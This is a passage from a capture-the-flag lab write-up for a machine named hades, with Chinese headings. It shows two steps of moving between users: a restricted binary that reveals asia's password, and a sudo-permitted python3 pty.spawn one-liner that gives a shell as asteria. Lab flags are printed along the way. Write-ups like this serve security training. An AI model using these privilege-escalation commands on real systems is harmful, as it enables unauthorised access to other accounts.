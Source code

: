 ### 任务目标

```plaintext title="mission.txt"
We need /bin/bash so that the user asia gives us her password. 
```

### 行动

```plaintext title="ls -lah"
-rw-r--r-- 1 artemis artemis  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 artemis artemis 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 artemis artemis  807 Apr 23  2023 .profile
-rw-r----- 1 root    artemis   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root    artemis  202 Jul 26  2023 mission.txt
-rw---x--- 1 root    artemis  16K Jul 26  2023 restricted
```

```bash title="Exploit it"
artemis@hades:~$ ./restricted 
Your SHELL is: /bin/bash

djqWtkLisbQlrGtLYHCv
```

## User - asia

### flag - 10

```plaintext
^ngXdULWFWKCGtgxAQNv^
```

### 任务目标

```plaintext title="mission.txt"
The user asteria is teaching us to program in python.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root asia 4.0K Jul 26  2023 .
drwxr-xr-x 1 root root 4.0K Jul 26  2023 ..
-rw-r--r-- 1 asia asia  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 asia asia 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 asia asia  807 Apr 23  2023 .profile
-rw-r----- 1 root asia   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root asia  188 Jul 26  2023 mission.txt
```

```bash title="Exploit it"
asia@hades:~$ sudo -u asteria /usr/bin/python3 -c "import pty;pty.spawn('/bin/bash')"
asteria@hades:/pwned/asia$ cd
asteria@hades:~$ cat flagz.txt 
^xSRhIftMsAwWvBAnqNZ^
```
